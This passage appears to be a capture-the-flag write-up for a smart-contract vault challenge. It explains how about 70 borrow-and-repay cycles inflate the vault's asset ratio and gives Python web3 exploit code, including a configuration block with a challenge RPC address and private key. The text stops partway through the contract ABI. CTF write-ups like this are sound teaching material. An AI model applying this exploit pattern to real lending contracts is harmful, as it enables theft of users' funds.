 ### Attack Mathematics

Each "borrow → repay" cycle increases `totalAsset.amount` by 1% of the borrowed amount:
- After 1 cycle: ratio = 1.01
- After n cycles: ratio = (1.01)^n
- To achieve 1.998: n = log(1.998) / log(1.01) ≈ 70 cycles

## Technical Implementation

### Environment Setup

```python
from web3 import Web3
import json

# Configuration
RPC_URL = "http://s1.r3.ret.sh.cn:31895/"
PRIVATE_KEY = "0x1d650c94710a72dc9980ef8c46c760893c47ffb2b065d56228b0d15bf38026f6"
SETUP_CONTRACT_ADDRESS = "0xaE1e348Fbf07545b2380D985087F28b173e7B61E"
```

### Core Algorithm

```python
def exploit_vault():
    # 1. Get tokens
    send_tx(setup_contract.functions.claim())
    
    # 2. Approve token spending
    approve_amount = w3.to_wei(1000, 'ether')
    send_tx(ling_contract.functions.approve(vault_address, approve_amount))
    
    # 3. Initial deposit
    deposit_amount = 100000  # wei (minimum for fee generation)
    send_tx(vault_contract.functions.deposit(deposit_amount, account.address))
    
    # 4. Attack loop
    for i in range(75):  # 75 cycles for safety
        borrow_amount = vault_contract.functions.totalAssets().call()
        send_tx(vault_contract.functions.borrowAssets(borrow_amount))
        send_tx(vault_contract.functions.repayAssets(borrow_amount))
    
    # 5. Solve the challenge
    send_tx(setup_contract.functions.solve())
```

## Complete Exploit

```python
from web3 import Web3
import json

# --- CONFIGURATION ---
RPC_URL = "http://s1.r3.ret.sh.cn:31895/"
PRIVATE_KEY = "0x1d650c94710a72dc9980ef8c46c760893c47ffb2b065d56228b0d15bf38026f6"
SETUP_CONTRACT_ADDRESS = "0xaE1e348Fbf07545b2380D985087F28b173e7B61E"

# --- CONTRACT ABIs ---
SETUP_ABI = json.loads('''[
    {"inputs":[],"name":"claim","outputs":[],"stateMutability":"nonpayable","type":"function"},
    {"inputs":[],"name":"solve","outputs":[],"stateMutability":"nonpayable","type":"function"},
    {"inputs":[],"name":"isSolved","outputs":[{"internalType":"bool","name":"","type":"bool"}],"stateMutability":"view","type":"function"},
```